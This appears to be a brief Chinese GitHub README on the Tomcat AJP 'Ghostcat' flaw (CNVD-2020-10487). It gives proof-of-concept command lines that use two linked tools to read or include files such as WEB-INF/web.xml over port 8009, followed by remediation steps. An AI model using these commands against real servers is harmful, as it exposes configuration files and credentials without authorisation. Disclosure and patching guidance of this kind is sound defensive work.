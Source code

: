 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  

现在有两个poc     
## 1poc  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp```  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## 2poc  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />  
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  



